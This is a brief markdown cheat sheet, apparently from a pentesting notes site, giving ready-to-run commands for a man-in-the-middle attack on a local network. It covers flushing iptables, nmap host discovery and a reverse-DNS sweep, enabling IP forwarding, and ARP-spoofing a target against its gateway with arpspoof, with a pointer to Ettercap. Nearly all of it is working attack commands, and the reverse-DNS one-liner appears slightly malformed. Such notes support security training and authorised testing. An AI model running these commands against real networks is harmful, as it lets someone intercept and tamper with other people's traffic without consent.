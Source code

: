 # MITM

### flush iptables

```
sudo iptables -t filter -F
```

### reverse dns

```
nmap -sL 192.168.1.0/24 2>&1 | tee | grep --line-buffered -e \( | awk -Ffor '{print $2}'
```

### get alive hosts

```bash
nmap -sn 192.168.1.68
# if ping is blocked
nmap -Pn 192.168.1.68
```

### MITM

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t filter -A FORWARD -j ACCEPT
# sudo arpspoof -i eth0 -t 192.168.1.90 -r 192.168.1.1
sudo arpspoof -i eth0 -t <target> -r <gateway>
```

### or just use Ettercap

{% embed url="https://www.ettercap-project.org" %}

